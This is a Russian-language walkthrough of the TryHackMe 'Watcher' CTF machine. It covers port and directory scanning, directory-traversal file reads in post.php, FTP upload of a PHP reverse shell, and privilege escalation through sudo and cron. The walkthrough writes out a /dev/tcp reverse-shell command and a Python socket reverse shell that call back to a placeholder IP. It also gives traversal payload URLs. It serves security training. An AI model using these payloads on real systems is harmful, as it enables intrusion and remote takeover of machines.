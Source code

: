 # Watcher

## Enumeration
Сканируем ip командами:
```
nmap -sC -sV watcher.thm
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
|_  256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
|_http-title: Corkplacemats
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                    
```

Пробрутим сайт на наличие каких-либо файлов.
```
gobuster dir -u http://watcher.thm/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .html,.txt,.php
```

```
/post.php             (Status: 200) [Size: 2422]
/index.php            (Status: 200) [Size: 4826]
/css                  (Status: 301) [Size: 308] [--> http://watcher.thm/css/]
/images               (Status: 301) [Size: 311] [--> http://watcher.thm/images/]
/robots.txt           (Status: 200) [Size: 69]
/round.php            (Status: 200) [Size: 3440]
/bunch.php            (Status: 200) [Size: 3445]
```

В файле robots.txt можно обнаружить следующие файлы:
```
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

Перейдем к самому сайту. Главная страница выглядит следующим образом:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/1.png)

Перейдем по любой картинке. URL выгляит следующим образом:
```
http://watcher.thm/post.php?post=round.php
```

Попробуем экплуатироать directory traversal. Для этого попробуем прочитать файл /etc/passwd.
```
http://watcher.thm/post.php?post=../../../etc/passwd
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/2.png)

Таким же образом можем прочесть второй файл, который мы нашли в robots.txt, т.к. раньше мы не имели к нему доступа.
```
http://watcher.thm/post.php?post=secret_file_do_not_read.txt
```

В нем мы находим следующий текст и данные пользователя для доступа к ftp.
```
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- ftpuser:<password>
```

Подключаемся с имеющимися данными по ftp. Находим второй флаг, а также директорию files. Попробуем загрузить в эту директорию php-reverse-shell.
```
cd files

put php_reverse-shell.php
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/3.png)

Запускаем слушатель на установленном порту и отрываем shell через браузер.
```
http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/php_reverse_shell.php
```

Получаем оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/4.png)

Используем команду find, чтобы найти расположение всех флагов на машине.
```
find / -type f -name "flag*.txt" 2>/dev/null
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/5.png)

Забираем третий флаг. Просмотрим имеющиеся права командой sudo -l.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/6.png)

Мы моем выполнять любые команды от имени пользователя toby. Запустим bash от этого пользователя.
```
sudo -u toby /bin/bash
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/7.png)

Забираем четвертый флаг. Просмотрев файлы в домашней директории пользователя toby, можно найти файл note.txt.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/8.png)

В ней сказано, что пользователь Mat настроил задачи cron. Прочтем эти задачи.
```
cat /etc/crontab
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/9.png)

От люча имени пользователя mat исполняется файл cow.sh. Посмотрим что находится в файле.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/10.png)

Впишем в этот файл команду для создания обратной оболочки.
```
sh -i >& /dev/tcp/<ip>/<port> 0>&1
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/11.png)

Запускаем слушател на нужном порту и ждем соединения.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/12.png)

Забираем пятый флаг. Просмотрев файлы в домашней директории пользователя mat, можно найти файл note.txt.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/13.png)

В записке сказано, что пользователь Will предоставил права на выполнение какого-то скрипта. Просмотрим имеющиеся права командой sudo -l.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/14.png)

Перейдем в папку scripts. В ней находятся два скрипта will_script.py и cmd.py.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/15.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/16.png)

Передав значение в скрипт will_script, он передает его в скрипт cmd.py и тот в свою очередь проверяет его и исполняет команду. Добавим код в cmd.py для получения обратной оболочки.
```
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<ip>",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/17.png)

Запускаем слушатель и вводим следующую команду для выполненния скрипта от имени пользователя will. Получаем оболочку. Забираем шестой флаг.
```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/18.png)

Просмотрев различные директории можно найти файл key.b64.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/19.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/20.png)

Попробуем закинуть содержимое файла в CyberChef и декодировать из base64. Получаем ключ RSA. Сохраним его в файл, дадим ему права 600 и подключимся по ssh.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Watcher/21.png)

Получаем последний флаг.
